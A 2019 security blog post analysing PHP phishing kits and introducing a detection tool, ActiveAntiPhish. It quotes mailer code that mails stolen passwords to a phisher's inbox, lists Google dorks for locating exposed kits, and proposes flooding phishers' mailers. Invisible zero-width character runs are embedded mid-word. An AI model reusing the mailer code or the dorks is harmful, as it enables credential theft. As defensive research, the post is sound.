 ```yaml
---
layout: default.liquid
title: ActiveAntiPhish - Protecting Stolen Credentials Using Saturation
description: Phishkits. What they are, where to find them, and how to defend against them. Plus a little bit of knowledge found on the underground.
published_date: 2019-06-16 14:10:00 +0400
is_draft: false
---
```


<h3>Background</h3>

Over the past week I've started a new project involving phishing kits. These nasty little things are usually zip files that a hacker has paid for on an underground website or forum. They take many forms and are used to phish for many different​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ types of credentials. Most phishers target the end user by sending an email that looks like it comes from the company with which they have an account when in fact the link in the email is a link to a phishing kit.

These kits are all created in PHP and all have the same coding style. It seems the underground phishing community has a standard they think is best which they follow faithfully. Because there are _thousands_ of different versions of these kits I thought it would be hard​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ to write a good YARA rule to detect them. Turns out this "tried and true" format persists across almost 90% of them.

With [ActiveAntiPhish](https://www.github.com/LogoiLab/ActiveAntiPhish) my goal is to create an application that allows for easy detection of phishing kits found on your servers as well as those that show up in your emails. If you were to somehow accidentally input your​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ credentials into a phishing kit ActiveAntiPhish's goal is to make it really hard for the phisher to use those credentials.

<h3>PhishKit Design</h3>

A phishing kit is commonly comprised of three parts, the _index_, the _blocker_, and the _mailer_.

<h4>The Index</h4>

The index page is usually a cloned page of the target website with the form fields changed to point to the _mailer_. For simple accounts these files are generally single page in style with a redirect to the official site. For banking phishkits the _index_ may be three to four separate pages for grabbing things like routing number, account number, pins, credit card info, and more.

<h4>The Blocker</h4>

Copy-pasting is virulent in the phishing community. The blocking script is the most common code among phishkits. This simple PHP script uses things like headers and user agent strings to determine if the computer visiting the page is a bot. The most commonly blocked bots are those by security companies and anti-phishing efforts like [PhishTank](https://phishtank.com/). Often phishers block entire IP ranges of countries they do not want credentials from. These vary based on the phisher.

<h4>The Mailer</h4>

This chunk of code is the main interest of ActiveAntiPhish as it is what exfiltrates stolen user info. It commonly has four parts with another debug-like part that shows up occasionally.

The first part gathers info about the user such as IP, country of origin, and User Agent string. An example of this section can be found here:

```php
$country = visitor_country();
$ip = getenv("REMOTE_ADDR");
$_SESSION['UserName'] = $_POST['UserName'];
$port = getenv("REMOTE_PORT");
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate=date("D M d, Y g:i a");
```

`visitor_country()` in this case is a function that uses publicly available geolocation APIs to get the victim's country of origin.

The second part creates the log, this compiles all of the gathered info including the stolen credentials into a multi-line PHP string. This log contains lots of identifiable strings and is usually what ActiveAntiPhish uses to identify the _mailer_. An example log section:

```php
$message .= "-----------  ! +Citi LOGIN ! xDD+ !  -----------\n";
$message .= "-----------  ! +Account infoS+ !  -----------\n";
$message .= "Email Address        : ".$_POST['username']."\n";
$message .= "Password               : ".$_POST['passwd']."\n";
$message .= "IP Address             : ".$ip."\n";
$message .= "-----------  ! +nJoY+ !  -----------\n";
```

Phishers like to tag their logs for an unknown reason. These tags are very identifiable. The structure of dashes with tags in the middle is common among all _mailers_. The YARA rules currently in use by ActiveAntiPhish trigger on this format as well as unique tags.

The third part is where the _mailer_ gets its name. It composes the headers and addresses to send an email to a throwaway account that the phisher controls. It looks a little something like this:

```php
$send = "REDACTED@gmail.com";
$subject = "Office365 logs xD $ip";
$headers = "From:  El Patr0n<xCoNsoLe@REDACTED.com>";
$headers .= $_POST['eMailAdd']."\n";
$headers .= "MIME-Version: 1.0\n";
$arr=array($send, $IP);
foreach ($arr as $send)
mail($send,$subject,$message,$headers);
```

As you can see there are a lot of unique strings here, in fact phishers seem to like 1337SpEaK. This makes it easy to detect.

The fourth part is often the redirect. This is an attempt to make the phishing page look legit by either logging you into or forwarding you on to the homepage of the impersonated site:

```php
header("Location: https://login.microsoftonline.com/");
```

This part of the _mailer_ is only helpful in identifying phishkits when used in conjunction with the above indicators.

The fifth and optional part is usually used to debug the mailer or is used as a fallback in case the throwaway account gets banned. It creates a local file and writes the log that would have been sent via email to the file. Phishkits that do this help us better understand who is being targeted as usually the log files are publicly readable. This allows me to contact those affected, especially those who had their corporate or university email stolen. The fallback option looks something like this:

```php
$handle = fopen("script.txt", "a");
fwrite($handle, $message);
fclose($handle);
```

<h3>PhishKit Collection</h3>

The method I use for gathering phishkits is usually a list of Google dorks. [PhishTank](https://phishtank.com/) is a good source if you're willing to hunt. Things to look for when hunting for phishkits are open directories with odd file and folder names. For example, here is a Google dork for Microsoft phishkits:

```
intitle:"Index of" insite:"onedrive" ".zip"
```

Once you find one you can continue to find more by using filenames you find to be common. Another common Microsoft phishkit dork:

```
intitle:"Index of" insite:"m1cr0" ".zip"
```

These dorks work because of the way phishers​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ exploit vulnerable web servers. Often times a phisher finds a way of uploading a PHP webshell, this can be through poorly implemented upload pages or exploits (looking at you revslider). They then use the webshell to upload a zip file of the phishkit. They later extract the zip file and their kit is ready to go. Most phishers forget to delete the zip file after they're done. This allows us to download a copy of their phishkit. We now know how to interact with their _mailer_ script which allows us to automate saturation of the phisher's email account.

<h3>Saturation</h3>

Most throwaway accounts are GMail accounts the reason for this is unknown. But this allows us to make some educated gues​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ses as to the limits of the account. GMail only allows its users to receive about 60 emails per minute (or an email a second). ActiveAntiPhish will be able to saturate the phisher's account with ease simply by calling the _mailer_ script. It is not known how GMail handles email flooding. But we can assume the server sending the email gets banned when it reaches the daily limit. That's 1 email a second, for every minute of 24 hours or __86,400__ emails. Once we reach this point the GMail documentation is very clear that the server is banned for 24 hours for the first offense.

This is important because if the phisher does not have a fallback email or logfile they have lost the ability to collect logs for the day while also having their inbox full of fake credentials. This would​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿ give a targeted company or individual time to contact webhosts and domain registrars to get the phishing page taken down.

The whole point of saturation is to increase the noise in the signal to noise ratio. This makes it difficult for a phisher to verify stolen credentials, making it very likely for them to just abandon that email account. Because the fake traffic is generated by the site wit​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿h the _mailer_ the computer running ActiveAntiPhish is not likely to get banned.

<h3>Closing</h3>

The indicators of compromise that can be gleaned from phishkits allow us to build robust YARA rules for detecting their p​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿resence on our networks. The rules used by ActiveAntiPhish can be found in the repo here: [phishkit.yar](https://cpcde.page.link/aapr).

ActiveAntiPhish is still under heavy development and is currently in the research phase. Any contributions are welcome. You ​﻿﻿﻿﻿﻿​﻿﻿﻿​﻿​﻿​​﻿﻿​​﻿﻿​​﻿​​​﻿﻿​﻿​﻿﻿﻿​​﻿​​﻿﻿​﻿﻿​​﻿﻿​﻿​﻿​﻿﻿﻿​​​​​﻿​﻿​​​﻿​﻿​​﻿​﻿​﻿﻿﻿﻿​​﻿​​​﻿​​​﻿﻿​﻿can find the repo [HERE](https://cpcde.page.link/aap)

<h3>References</h3>

[https://support.google.com/a/answer/1366776?hl=en](https://support.google.com/a/answer/1366776?hl=en)
